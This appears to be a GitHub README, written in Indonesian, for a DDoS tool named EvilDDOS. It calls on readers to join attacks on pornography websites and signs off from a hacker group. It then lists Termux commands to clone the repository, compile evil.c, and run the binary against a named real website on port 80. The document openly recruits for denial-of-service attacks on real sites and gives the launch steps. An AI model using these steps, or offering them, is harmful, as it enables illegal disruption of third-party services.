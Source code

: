 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM MEMBER CYBER PHOENIX🙏

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd evilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
